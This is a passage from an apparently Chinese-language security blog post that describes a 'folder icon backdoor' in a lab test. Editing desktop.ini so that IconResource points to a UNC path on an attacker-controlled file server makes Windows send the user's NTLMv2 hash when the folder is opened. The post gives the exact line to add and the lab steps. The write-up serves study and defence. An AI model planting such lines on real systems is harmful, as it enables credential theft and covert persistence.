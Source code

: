#### 4、伪造文件服务器获得客户端本机当前用户的NTLMv2 Hash

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-1-23/3-1.png)

通过这种方式，相比于scf文件，隐蔽性更高

## 0x05 文件夹图标后门
---

原理同上，更改系统文件夹的配置文件desktop.ini，当用户打开指定文件夹时，将本机当前用户的NTLMv2 Hash发送至伪造文件服务器

默认情况下，系统常见文件夹下包含配置文件desktop.ini，例如文件夹`Program Files`，desktop.ini内容如下：

```
[.ShellClassInfo]
LocalizedResourceName=@%SystemRoot%\system32\shell32.dll,-21781
```

尝试对其修改，添加如下内容：

```
IconResource=\\192.168.62.130\test\SHELL32.dll,4
```

**注：**

需要管理员权限

测试成功

### 实际测试：

客户端IP: 192.168.62.139

伪造文件服务器IP： 192.168.62.130

#### 1、修改客户端文件，路径为C:\Program Files\desktop.ini，添加内容

```
IconResource=\\192.168.62.130\test\SHELL32.dll,4
```

**注：**

IconResource指向伪造文件服务器，SHELL32.dll不存在

#### 2、在伪造文件服务器上使用wireshark进行抓包

#### 3、客户端访问文件夹c:\

#### 4、伪造文件服务器获得客户端本机当前用户的NTLMv2 Hash

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-1-23/3-2.png)
